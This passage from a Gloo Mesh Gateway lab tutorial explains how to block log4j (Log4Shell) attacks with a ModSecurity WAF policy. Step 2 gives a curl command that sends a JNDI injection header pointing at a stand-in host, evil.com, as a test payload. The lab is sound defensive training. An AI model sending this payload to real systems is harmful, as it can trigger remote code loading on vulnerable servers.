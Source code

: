 Gloo Mesh Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.
![log4j exploit](./images/log4j_attack.png)

2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/httpbin/get
```

3. With the Gloo Mesh WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

* In the route table, the frontend route has the label `route: httpbin`. The WAF policy applies to routes with this same label.
* In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.
